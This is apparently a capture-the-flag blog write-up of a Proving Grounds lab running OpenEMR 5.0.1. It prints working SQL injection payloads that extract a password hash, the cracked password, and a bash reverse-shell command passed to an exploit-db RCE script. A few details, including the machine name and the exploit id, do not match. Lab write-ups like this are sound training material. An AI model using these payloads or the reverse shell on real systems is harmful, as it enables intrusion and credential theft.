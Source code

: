 ```yaml
---
layout: single
title: Apex - Proving grounds Practice
date: 2023-06-21
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - web
  - sqli
  - openemr
  - passwordcracking
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- OpenEMR 5.0.1 it's vulnerable to a sql injection that allows us to get a password hash.
- Cracking this hash we can obtain the password and gain access to the web app.
- OpenEMR it's also vulnerable to RCE authenticated. Using the obtained password we are able to exploit it.
- Once inside the victim's machine we are able to reuse the same password to obtain root access.

### Detailed steps
------------------

### Enumeration

I started enumerating the open ports with:
```
nmap -Pn -p- 192.168.164.145
```
![nmap1](\assets\images\pg-practice-apex\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A 192.168.164.145 -p 80,445,3306 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-apex\2.JPG)

As we can see in the last picture, there is a web server, a mysql server and a smb server.
By accessing the website I was able to see a sanitary webpage. By clicking on `Scheduler` I could access to a login page.

![webpage1](\assets\images\pg-practice-apex\5.JPG)

This login page shows that we are in front of a `OpenEMR`
![webpage2](\assets\images\pg-practice-apex\6.JPG)

In order to find out the OpenEMR version, I found a common OpenEMR directory named 'sql' which was present in this server.
This directory stores sql files which are generated in the updates. Knowing this, we can deduce OpenEMR version (`5.0.1` in this case).

![webpage3](\assets\images\pg-practice-apex\80.JPG)

Also this directory contains some more interesting files as database.sql. This file shows the structure of the OpenEMR database.

![webpage4](\assets\images\pg-practice-apex\89.JPG)

### Explotation

This OpenEMR version is vulnerable to some `sql injections` we can find in the following report:
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf

This image shows the vulnerable files:
![sqli](\assets\images\pg-practice-apex\81.JPG)

Trying to search for these files I was able to acces to "add_edit_event_user.php" so I worked with this file.
![sqli2](\assets\images\pg-practice-apex\83.JPG)

To make this job easier, I looked in the database.sql file mentioned above. I could find a table named 'user_secure' which contains usernames and passwords.
![sqli3](\assets\images\pg-practice-apex\91_2.jpg)

After some attemps, I found a valid query using "substring" which can extract half password hash:
![sqli4](\assets\images\pg-practice-apex\90.JPG)

Modifying this query I was able to get the other half (just replacing 1,32 by 32,60):
![sqli5](\assets\images\pg-practice-apex\92.JPG)

Querys:
```
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,1,32)FROM users_secure LIMIT 0,1)))
eid=1 AND EXTRACTVALUE(0x3b,(SELECT Substring(password,32,64)FROM users_secure LIMIT 0,1)))
```

Hash:
```
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC
```

I used this page to analyse the hash --> https://hashes.com/es/tools/hash_identifier
As we can see in the picture, we are in front of a `bcrypt $2*$, Blowfish (Unix)`
![hash1](\assets\images\pg-practice-apex\93.JPG)

Knowing the type of hash I cracked it with hashcat:
![hash2](\assets\images\pg-practice-apex\95.JPG)

Now, having this password I was able to log in successfully to the web portal as admin user:
![access](\assets\images\pg-practice-apex\96.JPG)

![access2](\assets\images\pg-practice-apex\97.JPG)


`OpenEMR 5.0.1` is also vulnerable to a remote code execution (authenticated). This means that at this point I could exploit it.

In order to gain access I downloaded a python exploit from: https://www.exploit-db.com/exploits/48515
Opening a netcat listener and executing this exploit with the following paramaters, I was able to catch the shell.
```
python2 45161.py http://192.168.164.145/openemr -u admin -p thedoctor -c "bash -c 'bash -i >& /dev/tcp/192.168.164.145/5555 0>&1'"
```
![shell](\assets\images\pg-practice-apex\101.JPG)

![shell2](\assets\images\pg-practice-apex\102.JPG)

Being www-data user I was able to find the user flag:
![flag1](\assets\images\pg-practice-apex\103.JPG)


### Privilege escalation

In order to elevate privileges I have been looking for a way for a while until I realised that I could use the previously obtained password again.
Just typing su root and using "thedoctor" as password I was able to log in as root and find the root flag.
![root](\assets\images\pg-practice-apex\227.JPG)

![flag2](\assets\images\pg-practice-apex\228.JPG)
